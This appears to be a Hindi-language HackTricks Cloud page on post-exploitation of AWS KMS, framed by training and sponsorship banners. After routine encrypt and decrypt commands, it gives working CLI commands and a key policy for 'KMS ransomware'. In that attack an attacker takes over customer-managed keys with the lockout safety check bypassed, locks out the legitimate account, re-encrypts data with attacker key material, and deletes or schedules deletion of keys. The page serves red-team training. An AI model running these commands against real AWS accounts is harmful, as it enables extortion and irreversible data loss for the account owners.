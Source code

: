 # AWS - KMS पोस्ट एक्सप्लोइटेशन

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}

## KMS

अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### जानकारी एन्क्रिप्ट/डिक्रिप्ट करें

{% hint style="success" %}
ध्यान दें कि यदि आप किसी फ़ाइल के अंदर कुछ डेटा को डिक्रिप्ट करना चाहते हैं, तो फ़ाइल में बाइनरी डेटा होना चाहिए, न कि बेस64 एन्कोडेड डेटा।
{% endhint %}

* एक **संपूर्ण** कुंजी का उपयोग करना
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* एक **असामान्य** कुंजी का उपयोग करना:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
### KMS Ransomware

एक हमलावर जिसके पास KMS पर विशेषाधिकार प्राप्त पहुंच है, वह कुंजियों की KMS नीति को संशोधित कर सकता है और **अपने खाते को उन पर पहुंच प्रदान कर सकता है**, वैध खाते को दी गई पहुंच को हटा सकता है।

फिर, वैध खाते के उपयोगकर्ता उन कुंजियों के साथ एन्क्रिप्ट की गई किसी भी सेवा की कोई जानकारी तक पहुंच नहीं प्राप्त कर पाएंगे, जिससे खाते पर एक आसान लेकिन प्रभावी रैंसमवेयर बन जाएगा।

{% hint style="warning" %}
ध्यान दें कि **AWS प्रबंधित कुंजियाँ इस हमले से प्रभावित नहीं हैं**, केवल **ग्राहक प्रबंधित कुंजियाँ**।

यह भी ध्यान दें कि पैरामीटर **`--bypass-policy-lockout-safety-check`** का उपयोग करने की आवश्यकता है (वेब कंसोल में इस विकल्प की कमी इस हमले को केवल CLI से संभव बनाती है)।
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
ध्यान दें कि यदि आप उस नीति को बदलते हैं और केवल एक बाहरी खाते को एक्सेस देते हैं, और फिर इस बाहरी खाते से आप एक नई नीति सेट करने की कोशिश करते हैं **जिससे मूल खाते को एक्सेस वापस दिया जा सके, तो आप सक्षम नहीं होंगे**।
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

### Generic KMS Ransomware

#### Global KMS Ransomware

एक वैश्विक KMS Ransomware करने का एक और तरीका है, जिसमें निम्नलिखित चरण शामिल होंगे:

* एक नया **की बनाएं जिसमें हमलावर द्वारा आयातित की सामग्री हो**
* **पुराने डेटा को फिर से एन्क्रिप्ट करें** जो पिछले संस्करण के साथ एन्क्रिप्ट किया गया था, नए के साथ।
* **KMS की को हटाएं**
* अब केवल हमलावर, जिसके पास मूल की सामग्री है, एन्क्रिप्टेड डेटा को डिक्रिप्ट करने में सक्षम होगा

### Destroy keys
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
ध्यान दें कि AWS अब **पिछले कार्यों को क्रॉस अकाउंट से करने से रोकता है:**
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
